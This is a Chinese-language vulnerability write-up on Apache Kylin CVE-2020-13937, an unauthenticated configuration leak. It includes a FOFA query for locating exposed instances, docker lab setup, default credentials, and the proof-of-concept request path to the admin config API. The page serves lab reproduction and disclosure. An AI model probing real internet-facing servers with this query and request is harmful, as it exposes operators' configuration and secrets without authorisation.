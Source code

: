 ```yaml
---
title: Apache Kylin config 未授权配置泄露 CVE-2020-13937
---
```


# Apache Kylin config 未授权配置泄露 CVE-2020-13937

## 漏洞描述

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUta3lsaW4i">FOFA: app="APACHE-kylin"</a-button>
</a-checkbox>

## 环境搭建

<a-alert type="success" message="这里使用 docker 来搭建需要的环境" description="" showIcon>
</a-alert>

```bash
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
```

打开后使用默认账号密码admin/KYLIN登录，出现初始界面即为成功

![img](/assets/PeiQi-Wiki/img/kylin-1.png)



## 

## 漏洞复现

漏洞验证POC

```
/kylin/api/admin/config
```

![image-20220306140151412](/assets/PeiQi-Wiki/img/image-20220306140151412.png)
